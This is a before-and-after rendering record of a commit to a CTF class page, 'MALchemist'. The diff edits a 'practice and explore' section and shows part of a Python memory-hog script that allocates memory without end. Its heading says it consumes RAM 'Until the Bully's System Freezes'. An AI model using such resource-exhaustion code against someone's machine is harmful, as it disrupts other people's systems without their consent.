

Before and after one commit to jboyce1/ppsCTF, a Jekyll site: the page built from classes/MALchemist/MALchemist.md, in a window 1280 px wide and 900 px high, scrolled down 8646 px, cut to the strip 591-900 px from the top of the window. Shown: the whole strip, without its empty margins (238-1091 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours.

Commit message:
Update MALchemist.md

````diff
--- a/classes/MALchemist/MALchemist.md
+++ b/classes/MALchemist/MALchemist.md
@@ -219,6 +219,7 @@ Actually go back to the Kali machine to see if you received a notification
 ---
 # Part 5: practice and explore
 
+Use the following scripts to
 Memory Hog (Consumes RAM Until the Bully’s System Freezes)
 
 ``` python
@@ -227,7 +228,7 @@ import multiprocessing
 import time
 
 def memory_hog():
-    """Consumes system memory indefinitely."""
+    """Consumes system me mory indefinitely."""
     data = []
     while True:
         data.append("X" * 10**6)  # Allocate 1MB per loop
````
